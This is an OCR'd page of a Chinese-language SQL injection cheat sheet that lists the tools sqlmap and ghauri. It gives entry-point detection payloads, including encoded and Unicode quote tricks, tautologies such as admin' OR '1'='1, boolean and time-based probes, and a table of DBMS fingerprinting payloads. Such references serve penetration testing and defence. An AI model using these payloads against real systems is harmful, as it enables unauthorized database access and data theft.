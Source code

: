 * [sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap) - 自动化 SQL 注入和数据库接管工具
* [r0oth3x49/ghauri](https://github.com/r0oth3x49/ghauri) - 一个高级跨平台工具，自动检测并利用 SQL 注入安全漏洞

## 入口点检测

在 SQL 注入 (SQLi) 中检测入口点涉及识别应用程序中未正确清理用户输入的位置，这些输入随后会被包含在 SQL 查询中。

* **错误消息**：在输入字段中输入特殊字符（例如单引号 '）可能会触发 SQL 错误。如果应用程序显示详细的错误消息，则可能表明存在潜在的 SQL 注入点。
    * 简单字符：`'`, `"`, `;`, `)` 和 `*`
    * 编码后的简单字符：`%27`, `%22`, `%23`, `%3B`, `%29` 和 `%2A`
    * 多重编码：`%%2727`, `%25%27`
    * Unicode 字符：`U+02BA`, `U+02B9`
        * MODIFIER LETTER DOUBLE PRIME (`U+02BA` 编码为 `%CA%BA`) 被转换为 `U+0022` QUOTATION MARK (")
        * MODIFIER LETTER PRIME (`U+02B9` 编码为 `%CA%B9`) 被转换为 `U+0027` APOSTROPHE (')

* **基于同义逻辑的 SQL 注入**：通过输入同义（总是为真）条件来测试漏洞。例如，在用户名字段中输入 `admin' OR '1'='1` 可能会在系统易受攻击时登录为管理员。
    * 合并字符

      ```sql
      `+HERP
      '||'DERP
      '+'herp
      ' 'DERP
      '%20'HERP
      '%2B'HERP
      ```

    * 逻辑测试

      ```sql
      page.asp?id=1 or 1=1 -- true
      page.asp?id=1' or 1=1 -- true
      page.asp?id=1" or 1=1 -- true
      page.asp?id=1 and 1=2 -- false
      ```

* **时间攻击**：输入会导致有意延迟的 SQL 命令（例如在 MySQL 中使用 `SLEEP` 或 `BENCHMARK` 函数），可以帮助识别潜在的注入点。如果应用程序在输入后响应时间异常长，则可能易受攻击。

## DBMS 识别

### 基于关键字的 DBMS 识别

某些 SQL 关键字特定于特定的数据库管理系统 (DBMS)。通过在 SQL 注入尝试中使用这些关键字并观察网站如何响应，通常可以确定正在使用的 DBMS 类型。

| DBMS                | SQL Payload                     |
| ------------------- | ------------------------------- |
| MySQL               | `conv('a',16,2)=conv('a',16,2)` |
| MySQL               | `connection_id()=connection_id()` |
| MySQL               | `crc32('MySQL')=crc32('MySQL')` |
| MSSQL               | `BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)` |
| MSSQL               | `@@CONNECTIONS>0` |
| MSSQL               | `@@CONNECTIONS=@@CONNECTIONS` |
| MSSQL               | `@@CPU_BUSY=@@CPU_BUSY` |
| MSSQL               | `USER_ID(1)=USER_ID(1)` |
| ORACLE              | `ROWNUM=ROWNUM` |
| ORACLE              | `RAWTOHEX('AB')=RAWTOHEX('AB')` |
| ORACLE              | `LNNVL(0=123)` |